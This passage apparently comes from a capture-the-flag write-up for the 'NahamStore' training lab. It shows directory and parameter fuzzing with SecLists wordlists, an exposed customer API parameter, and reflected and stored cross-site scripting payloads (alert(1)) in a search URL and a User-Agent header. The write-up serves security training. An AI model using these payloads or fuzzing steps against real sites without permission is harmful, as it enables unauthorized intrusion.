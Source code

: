 
* Then Fuzz for directories.

* Wordlist - /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt

* Fuzzing helped to disclose the /api/customers endpoint, then the application itself disclosed the parameter - customer_id.


```
http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2
```


<br><br><br>


#### Cross-site Scripting


* The following parameter vulnerable to XSS:

```
http://nahamstore.thm/search?q=test123%27%3B+alert%281%29%3B%2F%2F
```

* Decoded:

```
http://nahamstore.thm/search?q=test123'; alert(1);//
```

* Sink (affected code where the input was relfect in.):

```
<script>
    var search = 'test123'; alert(1);//'; ...
```

<br>

* The following request's User-Agent header was vulnerable to stored XSS, as the next request would reflect it's value unencoded.

```
POST /basket HTTP/1.1
Host: nahamstore.thm
User-Agent: <script>alert(1)</script>
...
address_id=7&card_no=1234123412341234
```

<br>


* Fuzz for parameters under the following URL:

```
http://marketing.nahamstore.thm/?FUZZ=test
```

* Wordlist - /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt
